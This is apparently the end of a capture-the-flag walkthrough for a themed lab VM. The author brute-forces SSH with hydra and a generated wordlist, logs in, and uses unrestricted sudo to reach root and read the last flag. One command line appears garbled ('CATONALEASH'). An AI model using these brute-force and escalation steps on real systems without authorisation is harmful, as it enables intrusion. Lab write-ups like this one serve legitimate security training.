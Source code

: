 ```console
root@kali:~$ ./dictgen.sh 
```

Then I ran hydra to perform a dictionary attack with the generated wordlist.

```console
root@kali:~$ hydra -l RickSanchez -P wordlist.txt ssh://192.168.179.148:22222
..
[22222][ssh] host: 192.168.179.148   login: RickSanchez   password: P7Curtains
```

Now we have the RickSanchez password and I loggin via ssh.

```console
root@kali:~$ ssh -l RickSanchez 192.168.179.148 -p 22222
RickSanchez@192.168.179.148's password:
[RickSanchez@localhost ~]$ id
uid=1000(RickSanchez) gid=1000(RickSanchez) groups=1000(RickSanchez),10(wheel) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

### Sudo Permissions

Checking the sudo permissions this user is allowed to execute any command with those rights, so I execute the following instruction and we get root.

```console
[RickSanchez@localhost ~]$ sudo -l
[sudo] password for RickSanchez: 
Matching Defaults entries for RickSanchez on localhost:
    !visiblepw, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME
    LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User RickSanchez may run the following commands on localhost:
    (ALL) ALL
[RickSanchez@localhost ~]$ sudo -s
[root@localhost RickSanchez]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[root@localhost RickSanchez]# cd
[root@localhost ~]# ls
anaconda-ks.cfg  FLAG.txt
[root@localhost ~]# CATONALEASH FLAG.txt 
FLAG: {Ionic Defibrillator} - 30 points
```
In the /root directory I found the last 30pts flag that adds up to 130pts completing our goal.

